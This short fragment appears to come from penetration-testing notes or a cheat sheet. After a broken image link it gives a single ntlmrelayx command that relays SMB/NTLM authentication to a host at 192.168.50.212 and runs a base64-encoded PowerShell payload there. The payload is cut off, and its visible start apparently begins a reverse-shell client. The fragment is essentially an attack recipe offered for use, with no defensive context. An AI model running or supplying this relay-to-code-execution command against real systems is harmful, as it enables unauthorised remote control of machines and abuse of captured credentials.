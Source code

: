 - Get a code execution , after relaying smb :
```sh
#need to admin privileges
sudo ntlmrelayx --no-http-server -smb2support -t 192.168.50.212
-c "powershell -enc JABjAGwAaQBlAG4AdA..."
```